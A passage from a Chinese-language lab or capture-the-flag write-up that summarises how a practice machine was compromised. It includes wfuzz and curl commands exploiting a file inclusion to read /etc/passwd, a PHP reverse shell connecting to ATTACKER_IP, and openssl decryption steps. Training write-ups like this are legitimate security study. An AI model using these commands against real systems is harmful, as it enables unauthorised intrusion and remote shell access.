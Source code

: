 至此已经拿下了 flag 。

### 关键操作与注意事项
  
1. WFuzz 参数爆破:

```bash
wfuzz -c -w common.txt --hh 136 "http://192.168.170.139/index.php?FUZZ=../../etc/passwd"  
```

+ --hh 136：过滤固定响应长度，排除干扰项
+ 注意：若响应始终为 200，需结合内容长度/关键词过滤

2. 文件包含漏洞利用

```bash
curl "http://192.168.170.139/image.php?secrettier360=../../../../etc/passwd"  
```

3. 权限提升:通过**凭证复用**或**内核漏洞**双路径提权，优先选择低噪声方式。

>   3.1 WordPress 后台突破
>   -   在 `secret.php` 插入 PHP 反弹 Shell：
>   ```php
>   <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1'"); ?>  
>   ```
>   -   权限陷阱：上传主题/插件可能受目录写权限限制，优先查找可编辑文件。
>
>   3.2 OpenSSL 密钥破解（重点注意 `-n` 参数）
>   
>   -   生成密钥时 必须使用 `-n` 避免**换行符污染**：
>
>   ```bash
>   echo -n 'ippsec' | md5sum | awk '{print $1}'  
>   ```
>   -   数据处理链：
>
>   ```bash
>   echo -n '密文' | openssl enc -d -a -aes-256-ecb -K $(echo -n 'ippsec' | md5sum | awk '{print $1}')  
>   ```
>
>   -   验证:
>       -   检查原始数据是否含换行符（od -c 查看）
>       -   确认加密算法与模式（此处为 aes-256-ecb）       